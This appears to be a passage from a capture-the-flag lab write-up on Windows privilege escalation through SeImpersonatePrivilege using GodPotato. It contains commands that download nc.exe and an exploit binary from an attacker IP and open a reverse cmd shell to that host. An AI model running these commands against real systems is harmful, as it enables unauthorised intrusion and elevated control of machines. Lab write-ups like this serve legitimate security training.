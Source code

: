 ![image.png](/assets/images/Ra2THM/image%2028.png)

## Privilege Escalation

Now for the privesc part we straight up ran whoami /priv to check the privileges

```bash
whoami /priv
```

We can see that we have SeImpersonatePrivilege Enabled on this machine so possible expliots to use are PrintSpoofer or GodPotato to escalate our privileges. 

I downloaded one precompiled binary from github.

[https://github.com/BeichenDream/GodPotato/releases](https://github.com/BeichenDream/GodPotato/releases)

Transferred our godpotato and nc.exe binaries to the remote server using 

```bash
InvokeWebRequest -Uri http://10.14.98.235:9001/nc.exe -o nc.exe
InvokeWebRequest -Uri http://10.14.98.235:9001/gp.exe -o gp.exe
```

Executed the below commands to get an admin shell.

```bash
.\gp.exe -c "nc.exe 10.14.98.235 9001 -e cmd"
```

With our local machine listening on 9001, we get an elevated shell.
